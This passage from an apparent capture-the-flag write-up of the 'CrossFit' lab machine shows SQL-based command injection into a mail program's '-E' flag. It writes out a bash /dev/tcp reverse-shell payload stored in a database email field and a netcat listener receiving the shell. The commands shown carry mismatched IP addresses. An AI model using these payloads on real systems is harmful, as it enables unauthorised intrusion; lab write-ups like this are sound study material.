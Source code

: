 Looking at the `mail` program's help, I noticed that there was a flag `-E` that allowed to execution of commands. Since I already had the credentials to the database, it seemed likely that I could create an entry in the user's table that contained code I wanted to execute as `isaac` in the email field of the database to be loaded and run within`send_updates.php`. `isaac` did not have a `.ssh` folder to insert my public key to, so I needed to craft a reverse shell instead.  

```text
hank@crossfit:/home/isaac$ mysql -u crossfit -p -D crossfit
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11007
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [crossfit]> select * from users
users        users.email  users.id     
MariaDB [crossfit]> INSERT INTO users (id, email) VALUES ("1", "-E $(bash -i >& /dev/tcp/10.10.15.98/8099)");
Query OK, 1 row affected (0.003 sec)

MariaDB [crossfit]> select * from users;
+----+------------------------------------------------------------+
| id | email                                                      |
+----+------------------------------------------------------------+
|  1 | -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8099 0>&1') |
+----+------------------------------------------------------------+
1 row in set (0.000 sec)
```

I logged into MySQL using the same credentials as before, and checked for the field names in the `user` table so I knew how to frame my query to insert my reverse shell into the correct field.  I assumed that the `id` field was set to `AUTO_INCREMENT`, but just in case I set it to the value "1" to ensure my code would be the first entry.  The script from earlier said it pulled only the first entry.  

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.208] 53362
bash: cannot set terminal process group (1855): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$ test
isaac@crossfit:~$ exit
```

I got a connection back from my injected code, however it also immediately ran two commands \( I did not type these: `test` and `exit`\) which caused it to disconnect.  I also could not get the same injected command to work later. I have not idea what was broken here, or why those commands got run. I have a feeling that another user somehow got tangled up in my reverse shell and sent those commands, closing my session.
